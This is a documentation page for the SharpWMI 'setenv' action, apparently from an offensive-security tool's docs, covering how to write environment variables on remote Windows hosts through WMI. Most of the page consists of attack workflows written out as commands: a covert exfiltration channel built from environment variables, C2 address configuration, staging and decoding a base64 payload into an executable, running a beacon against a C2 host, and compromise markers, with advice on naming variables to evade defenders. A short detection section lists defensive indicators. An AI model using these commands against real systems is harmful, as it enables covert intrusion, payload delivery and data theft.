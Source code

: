 ```yaml
---
title: 'setenv'
description: 'Set environment variable values on local and remote systems'
icon: 'pencil'
---
```


## Overview

The `setenv` action creates or modifies environment variables on local and remote systems using the `Win32_Environment` WMI class. It can be used for configuration, data storage, or as a covert communication channel.

## Syntax

```bash
SharpWMI.exe action=setenv name=VARIABLE_NAME value=VARIABLE_VALUE [computername=HOST[,HOST2,...]] [username=DOMAIN\user] [password=Password]
```

## Parameters

| Parameter | Required | Description |
|-----------|----------|-------------|
| `action` | Yes | Must be `setenv` |
| `name` | Yes | Environment variable name |
| `value` | Yes | Environment variable value |
| `computername` | No | Target host(s), comma-separated. Defaults to localhost |
| `username` | No | Username for authentication |
| `password` | No | Password for authentication |

## Usage Examples

<CodeGroup>
```bash Set Local Variable
SharpWMI.exe action=setenv name=TEST value="Hello World"
```

```bash Set Remote Variable
SharpWMI.exe action=setenv name=CONFIG value="ProductionServer" computername=target.domain.com
```

```bash With Credentials
SharpWMI.exe action=setenv name=API_KEY value="abc123xyz" computername=target.domain.com username="DOMAIN\admin" password="Password123!"
```

```bash Multiple Targets
SharpWMI.exe action=setenv name=BUILD_NUMBER value="1234" computername=server1,server2,server3
```
</CodeGroup>

## Operational Use Cases

### Scenario 1: Data Exfiltration Channel

```bash
# 1. Execute command and store result
SharpWMI.exe action=exec computername=target command="whoami /all > C:\temp\out.txt" result=true

# 2. Read file content and store in variable (via PowerShell)
SharpWMI.exe action=exec computername=target command="powershell -c \"$c=Get-Content C:\temp\out.txt -Raw; [Environment]::SetEnvironmentVariable('RESULT',$c,'User')\"" result=true

# 3. Retrieve stored data
SharpWMI.exe action=getenv name=RESULT computername=target

# 4. Clean up
SharpWMI.exe action=delenv name=RESULT computername=target
```

### Scenario 2: Configuration Management

```bash
# Set configuration for payload
SharpWMI.exe action=setenv name=C2_SERVER value="192.168.1.100" computername=target.domain.com
SharpWMI.exe action=setenv name=C2_PORT value="443" computername=target.domain.com

# Payload reads these variables at runtime
```

### Scenario 3: Staging Data

```bash
# Store encoded payload in environment variable
SharpWMI.exe action=setenv name=PAYLOAD value="<base64_encoded_data>" computername=target.domain.com

# Execute decoder that reads from environment
SharpWMI.exe action=exec computername=target command="powershell -c \"$p=[Environment]::GetEnvironmentVariable('PAYLOAD','User'); $b=[Convert]::FromBase64String($p); [IO.File]::WriteAllBytes('C:\temp\file.exe',$b)\""
```

### Scenario 4: Persistence Marker

```bash
# Set marker to indicate compromised system
SharpWMI.exe action=setenv name=SYSTEM_ID value="<unique_identifier>" computername=target.domain.com

# Check marker on revisit
SharpWMI.exe action=getenv name=SYSTEM_ID computername=target.domain.com
```

## Variable Scope

Environment variables are set in the **user context**:

- **System scope:** Requires SYSTEM privileges
- **User scope:** Current user or specified user
- **Volatile:** Temporary (lost on reboot)

<Note>
  SharpWMI sets variables in the user scope by default. The variable persists across sessions but not reboots unless explicitly set as system-level.
</Note>

## Remote vs Local Usage

<Tabs>
  <Tab title="Local Set">
    ```bash
    SharpWMI.exe action=setenv name=TEST value="VALUE"
    ```

    **Use for:**
    - Local configuration
    - Testing
    - Post-exploitation setup
  </Tab>

  <Tab title="Remote Set">
    ```bash
    SharpWMI.exe action=setenv name=TEST value="VALUE" computername=target.domain.com
    ```

    **Use for:**
    - Remote configuration
    - Data staging
    - Covert channels
  </Tab>
</Tabs>

## Detection Considerations

<AccordionGroup>
  <Accordion title="WMI Detection" icon="radar">
    - Win32_Environment class modifications
    - Event ID 5857: WMI activity
    - Sysmon Event ID 19-21: WMI operations
    - Environment variable creation/modification
  </Accordion>

  <Accordion title="Registry Detection" icon="database">
    - Registry modifications in environment key
    - `HKCU\Environment` changes
    - `HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment` changes
    - Event ID 4657: Registry value modification
  </Accordion>

  <Accordion title="Suspicious Variables" icon="magnifying-glass">
    - Unusual variable names
    - Large variable values
    - Base64-encoded content
    - Variables created by non-standard processes
  </Accordion>
</AccordionGroup>

## Best Practices

<CardGroup cols={2}>
  <Card title="Variable Naming" icon="tag">
    - Use legitimate-sounding names
    - Blend with existing variables
    - Avoid obvious malicious names
    - Examples: BUILD_CONFIG, SYSTEM_ID, CACHE_PATH
  </Card>

  <Card title="Operational Security" icon="user-secret">
    - Clean up variables after use
    - Don't store sensitive data in plaintext
    - Use encoding/encryption
    - Monitor for defensive responses
  </Card>

  <Card title="Data Management" icon="database">
    - Keep values reasonably sized
    - Don't exceed value length limits
    - Consider compression for large data
    - Use delenv to clean up
  </Card>

  <Card title="Persistence" icon="clock">
    - Variables persist across logons
    - Lost on system reboot
    - Not suitable for long-term storage
    - Consider scheduled task for persistence
  </Card>
</CardGroup>

## Value Length Limits

<Warning>
  Environment variable values have length limitations. Very large values may fail to set.
</Warning>

**Recommendations:**
- Keep values under 32KB
- Use compression for large data
- Split large data across multiple variables
- Test with small values first

## Troubleshooting

<AccordionGroup>
  <Accordion title="Access Denied">
    **Cause:** Insufficient privileges

    **Solution:**
    - Use `username` and `password` parameters
    - Verify admin rights on target
    - Check UAC remote restrictions
  </Accordion>

  <Accordion title="Value Not Set">
    **Cause:** WMI operation failed

    **Solution:**
    - Check value length
    - Verify WMI service is running
    - Try with shorter value
    - Check for special characters
  </Accordion>

  <Accordion title="Variable Not Visible">
    **Cause:** Scope or context issue

    **Solution:**
    - Variables are user-specific
    - Check with getenv action
    - May need to refresh environment
    - Verify correct username context
  </Accordion>
</AccordionGroup>

## Related Actions

<CardGroup cols={2}>
  <Card title="getenv" icon="eye" href="/ghostpack-docs/SharpWMI-mdx/actions/getenv">
    Retrieve environment variables
  </Card>
  <Card title="delenv" icon="trash" href="/ghostpack-docs/SharpWMI-mdx/actions/delenv">
    Delete environment variables
  </Card>
  <Card title="exec" icon="terminal" href="/ghostpack-docs/SharpWMI-mdx/actions/exec">
    Execute commands that use variables
  </Card>
  <Card title="query" icon="database" href="/ghostpack-docs/SharpWMI-mdx/actions/query">
    Custom WMI queries
  </Card>
</CardGroup>

## Examples with Execution

<Accordion title="Set and Use Variable">
  ```bash
  # 1. Set environment variable
  SharpWMI.exe action=setenv name=C2_ADDR value="192.168.1.100" computername=target

  # 2. Execute payload that reads variable
  SharpWMI.exe action=exec computername=target command="powershell -c \"$ip=[Environment]::GetEnvironmentVariable('C2_ADDR','User'); beacon.exe -c $ip\""

  # 3. Clean up
  SharpWMI.exe action=delenv name=C2_ADDR computername=target
  ```
</Accordion>

<Accordion title="Store Command Output">
  ```bash
  # Using PowerShell to capture and store output
  SharpWMI.exe action=exec computername=target command="powershell -c \"$o=whoami /all | Out-String; [Environment]::SetEnvironmentVariable('WHOAMI_OUTPUT',$o,'User')\"" result=true

  # Retrieve stored output
  SharpWMI.exe action=getenv name=WHOAMI_OUTPUT computername=target
  ```
</Accordion>
